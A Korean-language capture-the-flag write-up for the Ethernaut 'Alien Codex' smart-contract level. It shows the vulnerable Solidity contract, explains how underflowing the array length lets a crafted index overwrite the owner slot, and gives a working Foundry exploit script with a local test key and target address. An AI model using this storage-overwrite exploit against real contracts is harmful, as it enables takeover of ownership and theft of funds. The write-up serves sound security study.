 # 지문

당신은 외계인(Alien) 컨트랙트를 발견했습니다. 이 컨트랙트의 소유권을 주장해서(level을) 완료하세요.

도움이 될 수 있는 것들:

배열 저장 방식(storage)이 어떻게 동작하는지 이해하기

ABI 규격(ABI specifications)에 대한 이해

매우 교묘한(underhanded) 접근 방식 사용하기

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

# 풀이 

Owner 권한을 가져오는 것이 해당 문제의 목표다.

Ownable.sol을 보면 slot0에 해당하는 곳에 owner address가 존재한다.

그곳을 overwrite해야하는 미션이다.

일단 contacted modifier의 조건에 맞게 make_contract 함수를 한번 실행시켜준다.

문제 코드에 언급된 codex가 storage layout에 어떤형태로 저장되는지 체크해보자면...

slot number가 keccak256(slot number) + codex index에 저장된다.

slot number은 32바이트를 넘길 수 없게끔 되어있다. 따라서 이 slot number에서 overflow 또는 underflow를 유도해서 slot1에 해당하는 storage 변수에 index에 음수를 넣어서 접근하지 못하더라도 slot0에 해당하는 변수의 값을 수정할 수 있다

2**256-0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6에 해당하는 값을 index로 넣게되면 slot 2**256에 해당하는 곳에 값을 쓸 수가 있는데 overflow로 인해서 slot 0으로 인식된다.

이 행위를 하기 전에 retract()함수를 한번 실행시켜서 codex.length도 underflow나게 해야 revise함수를 실행시킴에도 문제가 없다 (length를 초과하는 access는 revert남. real world에서 이런 취약점이 발생할 가능성은 0에 수렴하긴함)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function owner() external view returns (address);
    function makeContact() external;
    function record(bytes32 _content) external;
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
}
contract SolveScript is Script {
    address public target = 0xDC17C27Ae8bE831AF07CC38C02930007060020F4;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        console.log("owner : %s", ITarget(target).owner());
        ITarget(target).makeContact();
        ITarget(target).retract();
        ITarget(target).revise(uint256(0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a), bytes32(uint256(uint160(0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC))));

        console.log("owner after poc: %s", ITarget(target).owner());
        vm.stopBroadcast();
    }
}

```